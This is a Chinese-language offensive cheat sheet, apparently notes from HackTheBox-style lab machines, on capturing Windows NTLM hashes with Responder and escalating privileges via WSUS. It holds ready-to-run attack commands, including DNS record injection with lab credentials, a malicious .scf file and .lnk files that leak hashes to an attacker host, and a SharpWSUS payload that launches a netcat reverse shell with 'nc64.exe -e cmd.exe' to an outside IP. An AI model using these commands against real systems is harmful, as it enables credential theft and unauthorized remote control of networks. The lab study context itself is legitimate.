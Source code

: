 
### Responder 相关

 **0x01 Web-Request 自动任务 - 靶机新增 DNS 记录绑定 kali **
- 自动任务，使用身份凭证链接到靶机 DNS ，新增一套 web（自动任务关键词） 开头的 DNS 绑定到 kali
```bash
└─$ python3 DNSUpdate.py -DNS 10.129.228.41 -u 'intelligence.htb\Tiffany.Molina' -p NewIntelligenceCorpUser9876 -a ad -r web-xekOnerR -d 10.10.14.16                                                             
```
- Responder
```bash
└─$ sudo responder -I tun0
```

**0x02 powershell 链接 kali 拿 hash**
```bash
sudo responder -I tun0   (kali)
\\10.10.14.16\QWE   (Windows)
```

**0x03 smb 服务可写文件  (文件可以被写入进文件共享服务)**
Windows 资源管理器 Shell 命令文件 ( `.scf` ) 让 Windows 在用户访问包含该文件的目录时打开 SMB 连接
`.scf` 是一个文本文件，可以包含远程图标路径; 
```scf
[Shell]
Command=2

IconFile=\\10.10.14.29\icon
```
上传后，kali 设置 Responder

**0x04 smb 可写文件**
写入 .lnk 文件来获得 Hash
https://github.com/xct/hashgrab
```bash
python ~/tools/hashgrab/hashgrab.py 192.168.45.170 this
smb: \Documents\> put this.lnk
sudo responder -I tun0 -A
```



- ### WSUS  EXP   ( `WSUS Administrators`  Group  Privilege Escalation )
```bash
.\SharpWSUS.exe inspect  (Enumeration)
.\SharpWSUS.exe locate   (Enumeration)

用到 nc64.exe  sharpwsus.exe  psexec64.exe

.\sharpwsus.exe create /payload:"C:\Users\sflowers\desktop\psexec64.exe" /args:" -accepteula -s -d C:\Users\sflowers\desktop\nc64.exe -e cmd.exe 10.10.14.43 1337" /title:"EXP"

nc -lvvp 2233

.\SharpWSUS.exe approve /updateid:7dd7bd2a-3282-4573-b7fc-c26a9be64633 /computername:dc.outdated.htb /groupname:"xekOnerR"    (updateid根据上一条命令输出修改 , 运行后等待差不多两分钟就可以收到shell)
```
